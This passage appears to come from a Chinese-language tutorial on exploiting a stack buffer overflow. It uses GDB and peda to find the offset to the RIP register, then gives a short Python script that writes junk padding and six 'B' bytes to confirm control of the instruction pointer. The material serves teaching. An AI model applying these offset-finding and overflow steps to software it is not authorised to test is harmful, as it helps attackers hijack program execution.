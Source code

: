 程序崩溃了。下一步是检查栈中的最后一个元素，以计算 EIP 的偏移量：

```
$ x/wx $rsp
```

我们得到了栈中的最后一个元素为`0x41413741`（如果你使用相同的操作系统，这个地址应该是一样的）。现在，让我们看看这个模式的偏移量和下一个偏移量是否是 RIP 的确切偏移量：

```
$ peda pattern_offset 0x41413741
```

前面命令的输出可以在以下截图中看到：

![](img/00320.jpeg)

RIP 的确切偏移将从`105`开始。让我们也确认一下：

```
#!/usr/bin/env python
from struct import *

buffer = ""
buffer += "A"*104 # junk
buffer += "B"*6
f = open("input.txt", "w")
f.write(buffer)
```

这段代码应该用六个`B`字符溢出 RIP 寄存器：

```
$ chmod +x exploit.py
$ ./exploit.py
```

然后，从 GDB 内部运行以下命令：

```
$ run < input.txt
```

前面命令的输出可以在以下截图中看到：
